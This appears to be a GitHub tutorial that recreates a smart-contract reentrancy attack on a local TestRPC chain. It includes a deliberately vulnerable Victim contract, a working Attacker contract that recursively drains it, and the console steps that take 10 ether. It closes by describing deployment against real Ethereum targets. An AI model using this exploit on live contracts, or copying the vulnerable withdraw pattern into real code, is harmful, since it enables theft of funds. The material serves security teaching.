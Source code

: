 # Recreating Reentrancy Attack
The document below goes through a "reentrancy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 2. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

```
$ npm i -g ethereumjs-testrpc
$ npm i -g truffle
```

### 3. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {

  function withdraw() {
    uint transferAmt = 100000000000000000;
    if (!msg.sender.call.value(transferAmt)()) throw;
  }

  function deposit() payable {}
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim v;
  uint public count;

  event LogFallback(uint c, uint balance);

  function Attacker(address victim) {
    v = Victim(victim);
  }

  function attack() {
    v.withdraw();
  }

  function () payable {
    count++;
    LogFallback(count, this.balance);
    if (count < 10) {
      v.withdraw();
    }
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this
folder is your contracts in their `binary` and `abi` forms.

```
$ truffle compile
```

The command below `deploys` the contracts
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console,
so we can interact with our deployed contracts (Victim, Attacker), and
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victimAddress = victim.then(contract => contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.18' // or somthing close to this
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract => contract.deposit.sendTransaction({from: acct1, to: contractAddress, value: web3.toWei(11, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier,
that allows us to send ether to that function/contract from our `acct1` address.
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again,
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'88.18' // or somthing close to this
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'11'
```

### 5. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have
eth in that contract, lets steal some of that. but first lets check
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attackerAddress = attacker.then(contract => contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above is going to run recursively 10 times, because of the
conditional in our `default payable` function.

Now if everything is done correctly, we can see the reflection of what happened
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'1'
```

So as you can see the `Victim`'s contract is missing an additional `10` eth!!!

6. The Attack!!!

So the attacker finds a contract to attack, gets the contract's address and creates an
`Attacker` contract with an instances of the `Victim`'s contract to call against and targets the
the deployed `Victim`'s contract by address. Onces it has all of those variables in place, the attacker can
deploy the malicious contract to the Ethereum network and then call the `.attack()` method to drain
the `Victim`s address.
